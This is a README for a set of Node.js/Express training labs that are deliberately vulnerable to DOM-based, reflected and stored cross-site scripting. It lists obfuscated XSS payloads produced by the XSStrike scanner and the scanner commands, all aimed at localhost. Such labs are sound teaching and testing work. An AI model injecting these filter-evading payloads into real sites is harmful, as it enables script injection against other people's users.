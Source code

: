 # Node-XSS-labs
Most of the XSS labs online are based on PHP backend. So I developed three simple labs to demonstrate XSS vulnerabilities (DOM-based, reflected and stored) on a Node.js server. The labs are tested with XSStrike for vulnerabilities. The labs are build on Javascript, ejs, Node.js and Express.

### DOM-based XSS
**Payload** : ```alert(1)```
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/dom-based-xss.png) 


### Reflected XSS
**XSStrike Query** : python .\xsstrike.py -u "http://localhost:3000/?txt1=a" \
**Generated Payload** : ```<HtmL%0aONpoiNtereNteR%0d=%0d[8].find(confirm)%0dx>```
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/reflected-xss.png)
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/reflected-xss-xsstrike.png)


### Stored XSS
**XSStrike Query** : python .\xsstrike.py -u "http://localhost:3000/?txt1=a&txt2=a" -f default \
**Generated Payload** : ```'"</Script><Html Onmouseover=(confirm)()//<imG/sRc=l oNerrOr=(prompt)() x>```
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/stored-xss.png)
![](https://raw.githubusercontent.com/Corbe30/Node-XSS-labs/main/images/stored-xss-xsstrike.png)



# How to Run
1. Install dependencies with ```npm install```
2. Run server with ```node script.js```
